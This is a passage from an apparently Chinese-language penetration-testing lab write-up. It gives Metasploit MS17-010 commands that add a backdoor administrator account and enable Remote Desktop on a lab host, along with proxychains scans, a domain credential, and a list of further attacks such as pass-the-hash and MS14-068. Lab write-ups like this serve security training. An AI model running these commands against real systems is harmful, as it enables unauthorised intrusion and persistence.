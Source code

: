 按上面步骤设置好了代理，就可以用工具进行信息收集了

    proxychains nmap -p 0-1000 -Pn -sT 192.168.52.141

因为这nmap扫的实在是太慢了，就不放图了。。。

使用msf辅助模块进行扫描，查看是否存在ms17-010漏洞

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603151346.png)

三个都可能存在。
使用msf的代理之后就不能使用反向shell了，我们需要使用正向shell。

    use auxiliary/admin/smb/ms17_010_command
    show options
    set RHOSTS 192.168.52.141
    set command net user Troy3e !@#123qwe!@# /add #添加用户
    run #成功执行
    set command net localgroup administrators Troy3e /add #管理员权限
    run #成功执行
    set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
    run #成功执行

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603151826.png)

使用proxychains连接    proxychains rdesktop 192.168.52.141

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603154318.png)

 然后使用exploit/windows/smb/ms17_010_psexec 尝试去打一个shell回来

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603154603.png)

打了十几次都没通，放弃了。网上也说这个成功率很低，主要还是2003的原因。

## 拿下域控
在前面我们已经拿到了域用户的帐号密码，即administrator、HONGRISEC@2019我们现在要做的就是如何登录到域控上去
定位到域控制器的ip为192.168.52.138
还是先利用smb扫描系统版本   auxiliary/scanner/smb/smb_version

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603155318.png)

ms17_010_psexec失败

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603160549.png)

换MS08-067

___________
后面试了好多模块都不行，不知道原因，这里就列几种可以用的吧，已经打了太长时间吃不消了：

    MS17-010
    CVE-2019-0708
    psexec攻击
    哈希传递攻击
    MS14-068

哈希传递攻击可以一试。